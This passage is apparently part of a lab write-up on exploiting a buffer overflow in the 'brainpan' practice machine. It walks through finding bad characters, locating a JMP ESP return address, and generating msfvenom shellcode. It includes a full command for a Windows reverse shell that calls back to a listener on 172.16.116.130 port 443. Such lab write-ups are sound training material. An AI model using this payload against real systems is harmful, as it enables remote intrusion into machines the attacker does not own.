 ![Confirmed enough space](../brainpan/screenshots/3.5-enough_space.png)

It was tested if there were badchars (range from 00 to FF), `\x00` was found as the values after this got mangled:

![Found 00 as badchar](../brainpan/screenshots/4.1-badchars.png){ width=50% }

After some counting it was confirmed there wasn't any other badchar:

![No more badchars](../brainpan/screenshots/4.2-badchars.png){ width=50% }

From this on, by using `mona` and it's modules a search for where a `JMP ESP` address could be was done, after this was find as promising `0x311712F3`.
Some breakpoints where set, to test EIP was being overwritten with this address, this was successful (it can be noticed by checking how the value of EIP is the one early found):

![Finding unproteccted code](../brainpan/screenshots/5.1-return-modules.png)

![Found pointer JMP ESP](../brainpan/screenshots/5.2-return_address.png)

![Navigating to JMP ESP](../brainpan/screenshots/5.3-return_address.png)

![Breakpoint JMP ESP](../brainpan/screenshots/5.4-breakpoint.png)

![Succesfull Control JMP ESP](../brainpan/screenshots/5.5-breakpoint_success.png){ width=50% }

Stepping into the next address it can be seen how it was with `43434343` (hex value of C, the offset was being used):

![Cs doffset](../brainpan/screenshots/5.6-breakpoint_Cs.png){ width=50% }

From this on, was generated payload to pop-up a calc with msfvenom by running:

```texinfo
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/shikata_ga_nai -b "\x00" exitfunc=thread -f c
```

The shellcode generated from msfvenom was added in the script as shellcode, having before it 10 NOPs (hex value `\x90`), this to generate a NOP slide, with it achieving the encoder didn't override any shellcode when it was doing decoding of it, after this a calc successfully was poped-up:

![Pop calc.exe](../brainpan/screenshots/6-calc-without-func.png)

From this now, it was generated payload for a reverse shell with venom by running:

```texinfo
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp lport=443 lhost=172.16.116.130 exitfunc=thread -b "\x00" -e x86/shikata_ga_nai -f c
```

The shellcode generated was exchanged with the one of the calc, a listener on the attacker machine was set up at port 443 and the exploit was executed again but with this new shellcode, successfully getting a reverse shell from it:
